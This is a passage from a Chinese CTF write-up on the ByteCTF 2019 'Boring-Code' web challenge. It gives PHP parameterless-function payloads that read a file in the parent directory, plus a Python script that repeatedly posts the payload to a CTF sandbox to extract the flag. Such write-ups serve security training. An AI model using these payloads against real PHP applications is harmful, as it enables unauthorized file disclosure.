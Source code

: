 文件写入，再加上**SHTML**的特征基本就是`SSI注入`了

`SSTI xss SSI` 等等命令

## 十一 ByteCTF 2019 –WEB- Boring-Code

parse_url的绕过:https://www.jianshu.com/p/80ce73919edb

然后就是无参数的乱杀了。

贴上几个payload（效果是读取上层目录

构建ascii的46，构建出`.`

```
echo(readfile(end(scandir(chr(pos(localtime(time(chdir(next(scandir(chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))))))))))))));
```

```
echo(readfile(end(scandir(chr(pos(localtime(time(chdir(next(scandir(pos(localeconv()))))))))))));
```

exp：

```
import requests
import time
localtime = time.asctime( time.localtime(time.time()) )
url='http://challenge-72b9ac351e12c91b.sandbox.ctfhub.com:10080/code/'
while 1:
    response=requests.post(url,data={'url':'compress.zlib://data:@baidu.com/baidu.com?,echo(readfile(end(scandir(chr(pos(localtime(time(chdir(next(scandir(pos(localeconv()))))))))))));'}).text
    if 'ctfhub' in response:
        print('flag:'+response+"\n",localtime)
        break
```

